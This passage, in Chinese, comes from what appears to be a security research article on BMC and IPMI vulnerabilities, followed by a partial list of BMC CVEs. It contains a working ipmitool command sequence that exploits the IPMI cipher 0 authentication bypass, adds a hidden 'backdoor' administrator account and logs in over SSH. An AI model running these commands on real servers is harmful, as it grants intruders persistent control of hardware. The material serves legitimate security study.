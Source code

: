     添加 `-C 0` 选项，使用 cipher 0 了绕过认证。
    
    ```
    $ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user list
    ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
    1  Administrator    true    false      true      ADMINISTRATOR
    2  (Empty User)    true    false      false      NO ACCESS
    ```
    
    添加一个后门账户。
    
    ```
    $ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user set name 2 backdoor
    $ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user set password 2 password
    $ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user priv 2 4
    $ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user enable 2
    $ ipmitool -I lanplus -C 0 -H 10.0.0.99 -U Administrator -P FluffyWabbit user list
    ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
    1  Administrator    true    false      true      ADMINISTRATOR
    2  backdoor              true    false      true      ADMINISTRATOR
    $ ssh backdoor@10.0.0.99
    backdoor@10.0.0.99's password: password
    User:backdoor logged-in to ILOMXQ3469216(10.0.0.99)
    iLO 4 Advanced Evaluation 1.13 at  Nov 08 2012
    Server Name: host is unnamed
    Server Power: On
    </>hpiLO->
    ```
    

### [](#漏洞列表（部分） "漏洞列表（部分）")漏洞列表（部分）

BMC 存在的漏洞以 Web 后台管理的居多，IPMI、Redfish 等管理接口也有不少的问题。暴露的漏洞种类繁多，出现的漏洞类型如下, 并列举了部分案例。总体来看命令注入、认证绕过、越权以及信息泄露这四种占比较大，威胁系数也属于最高。

*   XSS
    
    *   CVE-2019-11216: 惠普 iLO5 XSS 漏洞。
    *   CVE-2019-6159: IBM System x IMM XSS 漏洞。
*   CSRF
    
    *   CVE-2020-15046: SuperMicro IPMI 03.40 可利用 CSRF 添加管理员用户。
*   命令注入
    
    *   CVE-2020-21224 : 浪潮 NF5266M5 Cluster Management System 命令注入。
        
    *   CVE-2019-1885: 思科 Integrated Management Controller (IMC) 由于校验不足，导致可通过 redfish 执行任意命令。
        
    *   CVE-2019-19642: SuperMicro IPMI 基于 IPMI 的虚拟媒体服务存在命令注入漏洞。
    *   CVE-2018-9086: Lenovo ThinkServer-branded 服务器固件下载命令存在命令注入漏洞，允许授权用户下载任意代码执行。
*   越权
    
    *   CVE-2018-15774：戴尔 EMC iDRAC 校验不足导致，普通用户可通过 redfish 提升至管理员权限。
    *   CVE-2018-7950/CVE-2018-7951 华为 iBMC JSON 注入修改管理员密码提升至管理员权限。
    *   CVE-2018-7949 : 华为 iBMC 登录功能存在缺陷，低权限用户可获得以及修改管理员密码。
    *   CVE-2018-7941: 华为 iBMC 低权限用户通过上传证书提升至管理员权限。
    *   CVE-2017-17323：华为 iBMC 低权限用户可访问高权限用户才能访问的页面。
*   认证绕过
    
